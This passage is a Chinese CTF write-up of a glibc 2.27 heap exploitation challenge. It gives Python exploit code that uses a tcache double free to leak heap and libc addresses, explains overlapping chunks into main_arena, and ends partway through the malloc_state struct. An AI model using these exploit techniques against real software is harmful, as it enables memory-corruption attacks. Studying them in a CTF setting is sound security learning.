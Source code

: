让我们直接看exp吧：

#### Leak

```python
add(1,0x10,0x90,"1"*8) 	   # 0

add(1,0x10,0x80,p64(0)) 	 # 1

free(1)

add(1,0x10,0x30,"3"*8) 		 # 2
free(2)
add(1,0x10,0x20,";$0\x00") # 3
add(1,0x10,0x20,"2"*8)		 # 4
free(0)
free(0)

show()
ru("Name: ")
heap=u64(re(6).ljust(8,"\x00"))-0x260 # 此处减去了IO缓冲区申请的堆空间
print hex(heap)

for i in range(6):
    free(0)

show()
ru("Name: ")
lib=u64(re(6).ljust(8,"\x00"))-0x3ebca0
print hex(lib)
```

- add两个chunk，size分别为0xb0和0xa0（会+0x20）
- 将0xa0的chunk放到tcache中。
- add一个0x50的chunk，并放到tcache中，这里是构造将被溢出的chunk，从而实现tcache poisoning
- add两个0x40的chunk
- **free chunk0两次，从而令chunk0放到tcache中，并且自己指向自己，由于tcache是单向链表，所以这时候next指针指向本身。注意tcache的检查很松（至少题目所给的libc-2.27.so版本），所以可以连续free两次**
- 然后调用show方法，leak出堆地址
- **再连续free chunk0六次，前五次会将0xb0的tcache数组填满，从而第六次free的时候，chunk0会被放入unsorted bin中，由于unsorted bin是双向数组，此时chunk0的fd、bk会指向main_arena**
- 再调用show方法，可以leak出堆地址

#### Overlapping

此时的关键点是，chunk0即在tcache中，又在unsorted bin中。而如果再申请相应大小的堆块时，会优先从tcache中取，取完后chunk0的next指针（也就是unsorted bin的fd指针）指向main_arena，所以会再再次申请时会申请到main_arena上去，也就可以修改main_arena的结构了。

main_arena的结构如下：

```c
struct malloc_state {
    /* Serialize access.  */
    __libc_lock_define(, mutex);
    /* Flags (formerly in max_fast).  */
    int flags;
    /* Fastbins */
    mfastbinptr fastbinsY[ NFASTBINS ];
    /* Base of the topmost chunk -- not otherwise kept in a bin */
    mchunkptr top; // top chunk的地址
    /* The remainder from the most recent split of a small request */
    mchunkptr last_remainder;
    /* Normal bins packed as described above */
    mchunkptr bins[ NBINS * 2 - 2 ];
    /* Bitmap of bins, help to speed up the process of determinating if a given bin is definitely empty.*/
```